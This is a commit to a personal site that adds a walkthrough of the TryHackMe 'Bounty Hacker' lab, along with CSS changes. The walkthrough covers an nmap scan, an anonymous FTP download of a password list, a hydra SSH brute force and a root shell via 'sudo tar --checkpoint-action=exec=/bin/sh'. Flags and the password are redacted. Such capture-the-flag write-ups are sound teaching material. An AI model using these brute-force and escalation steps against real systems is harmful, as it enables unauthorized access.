

Before and after one commit to dawnl3ss/dawnl3ss.github.io, a PHP site: page /writeups/thm/bounty-hacker/index.html in a window 1280 px wide. Shown: the part 656-2537 px from the top of the page at 70% size. Before the commit the page ends 1994 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
update [1.7.0] : add 'bounty-hacker' writeup

```diff
--- a/assets/css/writeup.css
+++ b/assets/css/writeup.css
@@ -20,7 +20,14 @@ hr {
 }
 
 .writeup-section-content img {
+    max-width: 100%;
     width: 50vw;
+    height: auto;
+    max-width: 100% !important;
+}
+
+.writeup-img {
+    max-width: 100%;
     height: auto;
     max-width: 100% !important;
 }
@@ -46,8 +53,8 @@ hr {
     }
 
     .writeup-presentation img {
-        width: 450px;
-        height: 255px;
+        width: 382.5px;
+        height: 216.75px;
     }
 }
 
@@ -98,7 +105,7 @@ body {
 
 
 main {
-    max-width: 800px;
+    max-width: 1000px;
     margin: 20px auto;
     padding: 50px;
 }
@@ -123,6 +130,10 @@ h2 {
     .wt-section {
         padding: 20px;
     }
+
+    code {
+        max-width: 100%;
+    }
 }
 
 
@@ -140,4 +151,22 @@ code {
     color: #c8c8c8;
     font-family: Consolas, Monaco, 'Andale Mono', 'Ubuntu Mono', monospace;
     font-size: 1.70rem;
+    max-width: 100%;
 }
+
+.shell-response {
+    white-space: pre;
+    padding-left: 2rem;
+    padding-right: 2rem;
+}
+
+.challenge-answer {
+    font-size: 2rem;
+}
+.challenge-answer span {
+    font-style: italic;
+}
+
+p a {
+    color: white;
+}
--- a/writeups/thm/bounty-hacker/index.html
+++ b/writeups/thm/bounty-hacker/index.html
@@ -50,7 +50,7 @@
                 </div>
                 <hr>
                 <div>
-                    <img src="../../../assets/img/thm/bounty-hacker/9ad38a2cc31d6ae0030c888aca7fe646.jpeg">
+                    <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg">
                 </div>
                 <hr>
                 <div class="tag-list">
@@ -66,7 +66,7 @@
         <main>
             <div class="wt-section">
                 <h1> Introduction </h1>
-                <p class="writeup-text"> Bounty Hacker is one of the 'free rooms' implemented by TryHackMe. </p>
+                <p class="writeup-text"> Bounty Hacker is one of the 'free rooms' implemented by TryHackMe. You have to find and obtain user & root flags.  </p>
                 <ul>
                     <li>
                         <p class="writeup-text"> Name : Bounty Hacker</p>
@@ -77,21 +77,250 @@
                     <li>
                         <p class="writeup-text"> OS : Linux </p>
                     </li>
+                    <li>
+                        <p class="writeup-text"> Type : Web-App Security </p>
+                    </li>
                 </ul>
                 <p class="writeup-text"> Let's dive into the challenge ! </p>
             </div>
             <div class="wt-section">
-                <h1> Enumeration </h1>
-                <p class="writeup-text"> I firstly added the machine ip address to my /etc/hosts files : </p>
-                <p class="writeup-text"> <code>$ sudo echo '{MACHINE-IP} bouty.thm' >> /etc/hosts </code> </p>
+                <h1> Reconnaissance </h1>
+                <p class="writeup-text"> I firstly added the machine ip address to my /etc/hosts file : </p>
+                <p class="writeup-text"> <code>$ sudo echo '{MACHINE-IP} bounty.thm' >> /etc/hosts </code> </p>
                 <p class="writeup-text"> I used nmap scanner to enumerate open ports on the machine : </p>
-                <p class="writeup-text"> <code>$ nmap -A bounty.thm </code> </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+$ nmap -A bounty.thm
+
+Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 12:18 CEST
+Nmap scan report for bounty.thm (10.10.186.141)
+Host is up (0.059s latency).
+Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
+PORT   STATE SERVICE VERSION
+21/tcp open  ftp     vsftpd 3.0.3
+| ftp-anon: Anonymous FTP login allowed (FTP code 230)
+| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
+|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
+| ftp-syst:
+|   STAT:
+| FTP server status:
+|      Connected to ::ffff:10.18.43.24
+|      Logged in as ftp
+|      TYPE: ASCII
+|      No session bandwidth limit
+|      Session timeout in seconds is 300
+|      Control connection is plain text
+|      Data connections will be plain text
+|      At session startup, client count was 1
+|      vsFTPd 3.0.3 - secure, fast, stable
+|_End of status
+22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
+|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
+|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
+|_http-title: Site doesn't have a title (text/html).
+|_http-server-header: Apache/2.4.18 (Ubuntu)
+Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/
+Nmap done: 1 IP address (1 host up) scanned in 17.72 seconds
+                    </code>
+                </p>
+                <p class="writeup-text"> There is nothing interesting on the web page, we can skip this part. </p>
+                <p class="writeup-text"> Now, we can see that there is the FTP (21) port open with Anonymous login allowed. Let’s check this : </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+$ ftp bounty.thm
+
+Connected to bounty.thm.
+220 (vsFTPd 3.0.3)
+Name (bounty.thm:amanara): Anonymous
+230 Login successful.
+Remote system type is UNIX.
+Using binary mode to transfer files.
+ftp>
+                    </code>
+                </p>
+                <p class="writeup-text"> Nice, now that we are connected to the FTP, we can search for interesting files. </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+ftp> ls -la
+
+200 PORT command successful. Consider using PASV.
+150 Here comes the directory listing.
+drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
+drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
+-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
+-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
+226 Directory send OK.
+                    </code>
+                </p>
+                <p class="writeup-text"> Okay, looks like there are some interesting files. We can download them with these commands : </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+ftp> get locks.txt
+
+local: locks.txt remote: locks.txt
+200 PORT command successful. Consider using PASV.
+150 Opening BINARY mode data connection for locks.txt (418 bytes).
+226 Transfer complete.
+418 bytes received in 0.10 secs (4.0254 kB/s)
+
+ftp> get task.txt
+
+local: task.txt remote: task.txt
+200 PORT command successful. Consider using PASV.
+150 Opening BINARY mode data connection for task.txt (68 bytes).
+226 Transfer complete.
+68 bytes received in 0.00 secs (23.5400 kB/s)
+ftp>
+                    </code>
+                </p>
+                <p class="writeup-text"> We can exit the FTP since there is no other interesting files. Now, let’s check their content. </p>
+                    <code class="shell-response">
+$ cat task.txt
+
+1.) Protect Vicious.
+2.) Plan for Red Eye pickup on the moon.
+
+-lin
+                    </code>
+                </p>
+                <p class="writeup-text challenge-answer"><span> Who wrote the task list ? </span> Answer : lin </p>
             </div>
+
             <div class="wt-section">
-                <h1>Challenge 2</h1>
-                <p>...</p>
+                <h1> Getting a shell </h1>
+                <p class="writeup-text">
+                    <code class="shell-response">
+$ cat locks.txt
+
+rEddrAGON
+ReDdr4g0nSynd!cat3
+Dr@gOn$yn9icat3
+R3DDr46ONSYndIC@Te
+ReddRA60N
+R3dDrag0nSynd1c4te
+dRa6oN5YNDiCATE
+ReDDR4g0n5ynDIc4te
+R3Dr4gOn2044
+RedDr4gonSynd1cat3
+R3dDRaG0Nsynd1c@T3
+Synd1c4teDr@g0n
+reddRAg0N
+REddRaG0N5yNdIc47e
+Dra6oN$yndIC@t3
+4L1mi6H71StHeB357
+rEDdragOn$ynd1c473
+DrAgoN5ynD1cATE
+ReDdrag0n$ynd1cate
+Dr@gOn$yND1C4Te
+RedDr@gonSyn9ic47e
+REd$yNdIc47e
+dr@goN5YNd1c@73
+rEDdrAGOnSyNDiCat3
+r3ddr@g0N
+ReDSynd1ca7e
+                    </code>
+                </p>
+                <p class="writeup-text"> Ok, it looks like a password list. Maybe to bruteforce a login service. Since we know who wrote the task list (lin), we have a potential user. We also know that SSH service is open on the machine. So let’s try to bruteforce the SSH login with the user ‘lin’ and the password list that we found in the FTP.</p>
+                <p class="writeup-text challenge-answer"><span> What service can you bruteforce with the text file found ? </span> Answer : SSH </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+$ hydra -l lin -P locks.txt ssh://bounty.thm
+
+Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations,
+or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-31 14:06:49
+[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
+[DATA] attacking ssh://bounty.thm:22/
+[22][ssh] host: bounty.thm   login: lin   password: [REDACTED]
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-31 14:06:54
+                    </code>
+                </p>
+                <p class="writeup-text challenge-answer"><span> What is the users password ? </span> Answer : [REDACTED] </p>
+                <p class="writeup-text"> Yeah ! We found the password for ‘lin’ user. Now we can login with these credentials in SSH. </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+$ ssh lin@bounty.thm
+
+lin@bounty.thm's password:
+Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
+
+* Documentation:  https://help.ubuntu.com
+* Management:     https://landscape.canonical.com
+* Support:        https://ubuntu.com/advantage
+
+83 packages can be updated.
+0 updates are security updates.
+
+Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
+lin@bountyhacker:~/Desktop$
+                    </code>
+                </p>
+                <p class="writeup-text"> It works ! (as expected lol). Now that we have an initial user access, let’s search the user.txt file : </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+lin@bountyhacker:~/Desktop$ find / -name user.txt 2>/dev/null
+
+/home/lin/Desktop/user.txt
+                    </code>
+                </p>
+                <p class="writeup-text"> Now we can display the content to answer THM room question : </p>
+                <p class="writeup-text">
+                    <code class="shell-response">
+lin@bountyhacker:~/Desktop$ cat /home/lin/Desktop/user.txt
+
+THM{REDACTED}
+                    </code>
+                </p>
+                <p class="writeup-text challenge-answer"><span> user.txt ? </span> Answer : THM{REDACTED} </p>
             </div>
-            <!-- Ajouter des sections supplémentaires pour chaque challenge -->
+
+            <div class="wt-section">
+                <h1> Privilege escalation </h1>
+                <p class="writeup-text"> Since we have the user flag, we should escalate our privileges to display the root.txt file content. I firstly search for sudo misconfiguration : </p>
+                    <code class="shell-response">
+lin@bountyhacker:~/Desktop$ sudo -l
+
+[sudo] password for lin:
+Matching Defaults entries for lin on bountyhacker:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User lin may run the following commands on bountyhacker:
+    (root) /bin/tar
+                    </code>
+                </p>
+                <p class="writeup-text"> Nice, we have the permission to use /bin/tar as root. Let’s search on https://gtfobins.github.io for ‘tar’ binary sudo bypass. </p>
+                <div>
+                    <img class="writeup-img" src="../../../assets/img/thm/bounty-hacker/tar-sudo.png">
+                </div>
+                <p class="writeup-text"> Found it ! Now let’s escalate our privileges to root by copying this command. </p>
+                <p class="writeup-text"> Since we have the user flag, we should escalate our privileges to display the root.txt file content. I firstly search for sudo misconfiguration : </p>
+                    <code class="shell-response">
+lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
+
+[sudo] password for lin:
+tar: Removing leading `/' from member names
+# whoami
+root
+                    </code>
+                </p>
+                <p class="writeup-text"> Nice, and now we just have to display the content of the root.txt file : </p>
+                    <code class="shell-response">
+# cat /root/root.txt
+
+THM{REDACTED}
+                    </code>
+                </p>
+                <p class="writeup-text challenge-answer"><span> root.txt ? </span> Answer : THM{REDACTED} </p>
+                <p class="writeup-text"> Yeaaah ! Finally pwned ! Pretty easy huh ? </p>
+            </div>
         </main>
 
         <footer>
```
Also changed, not shown: assets/img/thm/bounty-hacker/tar-sudo.png (added).
